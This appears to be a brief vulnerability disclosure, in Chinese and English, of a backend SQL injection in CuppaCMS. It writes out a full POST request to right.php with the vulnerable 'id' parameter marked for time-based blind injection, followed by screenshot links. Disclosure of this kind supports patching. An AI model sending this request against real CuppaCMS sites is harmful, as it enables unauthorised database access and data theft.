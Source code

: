 # CuppaCMS-SQL Injecttion

 后台存在SQL注入 <br>
 注入参数 <b>id</b>SQL injection exists in the background
 ## POST
 POST /templates/default/html/windows/right.php HTTP/1.1<br>
 X-Requested-With: XMLHttpRequest<br>
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36<br>
 Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br>
 <br>
 id=*&url=components%2Ftable_manager%2Fhtml%2Fedit_admin_table.php&path=component%2Ftable_manager%2Fview%2Fcu_views&uniqueClass=window_right_1860693<br>
 ## 延时注入
 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/38deaee9-17b8-42d7-8862-99f0eaa51de4)

![image](https://github.com/tangzhaosong/Excavate/assets/100182502/37dcde04-2f7c-4cb8-b27f-3f6a7d64c383)

 
 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/4d3baf53-d41b-4b79-b494-cc5e1286a24e)
 
 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/77513a6b-6bc1-4ee9-99ad-ff32bf4ea9e4)

